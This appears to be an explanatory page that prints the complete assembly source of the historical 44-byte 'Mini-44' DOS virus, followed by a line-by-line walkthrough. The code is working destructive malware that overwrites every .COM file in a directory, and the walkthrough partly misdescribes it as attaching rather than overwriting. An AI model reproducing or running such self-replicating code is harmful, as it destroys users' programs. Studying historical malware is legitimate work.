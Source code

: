 # Mini-44 DOS Virus

## Source Code
```assembly
;44 byte virus, destructively overwrites all the COM files in the
;current directory.
;
;(C) 1994 American Eagle Publications, Inc.

.model small
.code

FNAME   EQU     9EH             ;search-function file name result

ORG     100H

START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H

SEARCH_LP:
        jc      DONE
        mov     ax,3D01H        ;open file we found
        mov     dx,FNAME
        int     21H

        xchg    ax,bx           ;write virus to file
        mov     ah,40H
        mov     cl,42           ;size of this virus
        mov     dx,100H         ;location of this virus
        int     21H

        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next file
        int     21H
        jmp     SEARCH_LP

DONE:
        ret                     ;exit to DOS

COM_FILE DB      '*.COM',0      ;string for COM file search

END START
```
## Analyze

1.  **Setup and Initial Search**:
    
    -   `.model small`: This directive tells the assembler to use the small memory model, which is common in DOS where the code and data segments are expected to fit within a single 64KB segment.
    -   `FNAME EQU 9EH`: This sets the label `FNAME` to the hexadecimal value `9EH`, which is used as an offset for where the file name is stored in memory after a file search.
    -   `ORG 100H`: This sets the code's origin to address `0100H`, a common practice for DOS .COM programs, as the first 256 bytes are reserved for the Program Segment Prefix (PSP).
2.  **File Search and Opening**:
    
    -   The program begins by searching for `.COM` files using DOS interrupt `21H` with function `4EH` (find first file).
    -   The file name pattern `*.COM` is used for the search.
    -   If a file is found, the program then opens it using function `3D01H` (open file for writing).
3.  **Modifying the File**:
    
    -   The program appears to write 42 bytes (`CL = 42`) of data from its own code (`DS:0100H`) into the beginning of the found file. This is typically characteristic of a computer virus that replicates by attaching itself to other executable files.
    -   After writing, it closes the file using function `3EH` (close file handle).
4.  **Continuing the Search**:
    
    -   The program then searches for the next `.COM` file using function `4FH`.
    -   If another file is found, the loop continues; otherwise, the program exits.
5.  **Termination**:
    
    -   The program ends with a `ret` instruction, returning control to DOS.

## Details


### 1. Initial Setup

`.model small` 

-   This tells the assembler to use a small memory model, suitable for DOS programs where both code and data segments are combined and should not exceed 64KB.

`FNAME   EQU     9EH             ;search-function file name result` 

-   `FNAME` is defined as a constant with the value `9EH`. This is used as an offset in the Program Segment Prefix (PSP) where DOS stores the filename of the last file found.

`ORG     100H` 

-   Sets the origin of the code to memory address `0100H`. DOS .COM programs start at this offset, following the 256-byte PSP.

### 2. File Search and Opening

```assembly
START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H
```

-   Sets up a call to DOS interrupt `21H` with function `4EH` (find first file matching a pattern). The pattern `*.COM` is provided by the address in `DX`.

```assembly
SEARCH_LP:
        jc      DONE            ;jump to DONE if no file is found
        mov     ax,3D01H        ;open file for writing
        mov     dx,FNAME
        int     21H
```
-   If a file is found, this part tries to open it for writing. `3D01H` in `AX` is the DOS function to open a file. The filename is pointed to by `DX`.

### 3. Writing to the File

```assembly
 xchg    ax,bx           ;swap file handle to BX
        mov     ah,40H          ;prepare to write to the file
        mov     cl,42           ;size of data to write
        mov     dx,100H         ;data location (start of the program)
        int     21H
```
-   After opening the file, it writes 42 bytes from the beginning of the program (`DS:0100H`) to the file. This is typical of a virus that replicates by inserting its code into other executables.

### 4. Closing the File and Searching for the Next File

```assembly
mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next .COM file
        int     21H
        jmp     SEARCH_LP
```
-   Closes the current file and searches for the next `.COM` file. If another file is found, the process repeats.

### 5. Termination
```assembly
DONE:
        ret                     ;exit to DOS
```
-   Once no more files are found, the program exits and returns control to DOS.

### 6. COM File Pattern
```assembly
COM_FILE DB      '*.COM',0      ;string for COM file search
```
-   This is the data definition for the file search pattern, `*.COM`, used by the program.
